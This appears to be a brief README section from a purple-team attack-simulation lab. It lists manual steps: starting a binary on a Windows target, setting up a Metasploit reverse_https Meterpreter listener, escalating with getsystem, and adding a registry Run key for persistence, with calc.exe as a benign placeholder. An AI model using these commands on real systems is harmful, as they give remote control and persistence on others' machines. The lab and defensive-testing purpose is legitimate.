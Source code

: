 Manual operation
----------------

target: start babymetal.exe

attacker:
    
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 192.168.178.189   (YMMV)
set LPORT 6666 (YMMV)
run
100.64.0.25  on kali
100.64.0.25  on win

getsystem
reg setval -k HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -v purpledome -d c:\windows\system32\calc.exe